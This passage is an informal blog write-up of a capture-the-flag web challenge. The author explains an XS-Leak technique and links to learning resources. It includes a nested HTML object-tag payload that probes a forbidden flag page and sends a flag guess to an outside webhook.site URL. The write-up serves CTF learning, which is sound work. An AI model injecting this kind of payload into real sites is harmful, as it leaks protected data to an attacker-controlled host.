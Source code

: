 ![Convo with the legend](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/SherpaCTF/image%206.png?raw=true)

So yea, I followed the hints given and I suddenly remembered another legend, Zeyu that had given multiple speech and trainings regarding web attacks. So I look into [XS Leak by Zeyu](https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks) and I found a few resources that can help me understand the vulnerability more.

Note: Read the blog, its freaking interesting and useful, if you want a video version, here:* [https://www.youtube.com/watch?v=SEVdfk0vTCM](https://www.youtube.com/watch?v=SEVdfk0vTCM)

So based on the explanations I kinda got everything I need. To explain abit, its basically injecting the tags and attribute not to achieve JavaScript injections, but to leak out data from forbidden pages, like in this case, using the form field to leak out the flag in /oshaoshaflagfinder.

BUT YOU KNOW WHAT, DO YOU KNOW WHAT? “you are veeeerrryyyy closeeee” HAPPENED. FOR. FOUR. HOURS.

Check this out:

```js
<object data="/oshaoshaflagfinder?flag=SHCTF24{">
    <object data="https://webhook.site/10661646-e8b2-4cdc-bc25-1c107809488e?flag=SHCTF24{"></object>
</object>
```

So what this exploit does, is that when injected, the object will hold the data in /oshaoshaflagfinder. But since its 403, the nested-object will be held instead, meaning that a webhook session will be started.
